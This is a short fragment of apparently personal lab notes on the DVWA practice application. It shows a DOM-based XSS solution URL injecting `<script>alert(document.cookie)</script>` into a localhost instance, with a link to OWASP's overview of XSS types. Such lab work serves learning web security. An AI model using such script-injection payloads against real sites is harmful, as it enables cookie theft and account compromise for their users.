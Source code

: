 ### ✨Done✨

```html
http://localhost:8086/vulnerabilities/xss_d/?default=English<script>alert(document.cookie)</script>
```

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2097.png)

### Ref

### Types of XSS

Types of XSS | OWASP Foundation
[https://owasp.org/www-community/Types_of_Cross-Site_Scripting#DOM_Based_XSS_.28AKA_Type-0.29](https://owasp.org/www-community/Types_of_Cross-Site_Scripting#DOM_Based_XSS_.28AKA_Type-0.29)

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2098.png)

---